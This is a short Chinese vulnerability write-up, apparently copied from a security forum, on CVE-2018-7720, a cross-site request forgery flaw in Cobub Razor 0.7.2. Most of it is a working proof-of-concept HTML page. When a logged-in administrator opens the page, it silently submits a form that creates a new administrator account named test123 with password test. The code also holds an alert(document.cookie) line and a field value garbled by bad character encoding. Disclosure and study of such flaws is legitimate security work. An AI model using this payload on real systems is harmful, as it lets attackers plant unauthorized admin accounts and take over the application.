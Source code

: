 # （CVE-2018-7720）Cobub Razor 0.7.2 存在跨站请求伪造漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2847](https://www.zhihuifly.com/t/topic/2847)

# （CVE-2018-7720）Cobub Razor 0.7.2 存在跨站请求伪造漏洞

## 一、漏洞简介

Cobub Razor 0.7.2存在跨站请求伪造漏洞，管理员登陆后访问特定页面可增加管理员账号。保存如下利用代码为html页面，打开页面将增加test123/test的管理员账号。

## 二、漏洞影响

Cobub Razor 0.7.2

## 三、复现过程

### POC

```
<body>
  <script>alert(document.cookie)</script>
    <form action="http://0-sec.org/index.php?/user/createNewUser/" method="POST">
      <input type="hidden" name="username" value="test123" />
      <input type="hidden" name="email" value="test&#64;test123&#46;test" />
      <input type="hidden" name="password" value="test" />
      <input type="hidden" name="confirm&#95;password" value="test" />
      <input type="hidden" name="userrole" value="3" />
      <input type="hidden" name="user&#47;ccreateNewUser" value="�&#136;&#155;�&#187;�" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```
